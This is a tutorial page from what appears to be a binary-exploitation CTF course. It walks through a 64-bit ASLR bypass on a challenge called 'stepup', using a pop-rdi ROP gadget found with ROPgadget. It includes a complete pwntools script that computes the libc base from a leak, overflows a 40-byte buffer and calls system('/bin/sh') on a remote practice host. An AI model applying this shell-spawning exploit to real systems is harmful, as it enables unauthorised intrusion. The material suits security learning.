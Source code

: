 ```yaml
---
description: Beating ASLR again, using 64-bit this time.
---
```


# stepup

{% file src="../../.gitbook/assets/stepup.zip" %}

This binary is similar to the last one, so we'll be reusing most of the same techniques. This time, we'll need a way to pass the `/bin/sh` address into `rdi`, which will require a gadget to do this.

### Getting our Gadget

We'll do this the same way that we did it in the ROP chapter. We use `ROPgadget` or `ropper` to search for a gadget that will pop the top of the stack into `rdi`:

{% tabs %}
{% tab title="ROPgadget" %}
```bash
$ ROPgadget --binary stepup | grep "pop rdi"
0x00000000004011db : pop rdi ; ret
```
{% endtab %}

{% tab title="ropper" %}

{% endtab %}
{% endtabs %}

This is perfect. We'll use this gadget to pop the address of `/bin/sh` into `rdi` before calling `system()`.

### Writing the Exploit

This binary is nearly identical to the last one. We are provided the address of `system()`, so we can just use that directly. Checking `read_in`, we'll notice that it takes `40` bytes to reach the return pointer.

This is everything we need to write the exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./stepup')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6200)

p.recvuntil(b'at: ')
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.system
log.success(f'LIBC base: {hex(libc.address)}')

g_popRdi = 0x4011db

payload = b'A' * 40
payload += p64(g_popRdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gets our flag! We beat ASLR in 64-bit, which was no different than in 32-bit. The only difference is that we had to use 64-bit gadgets and addresses.
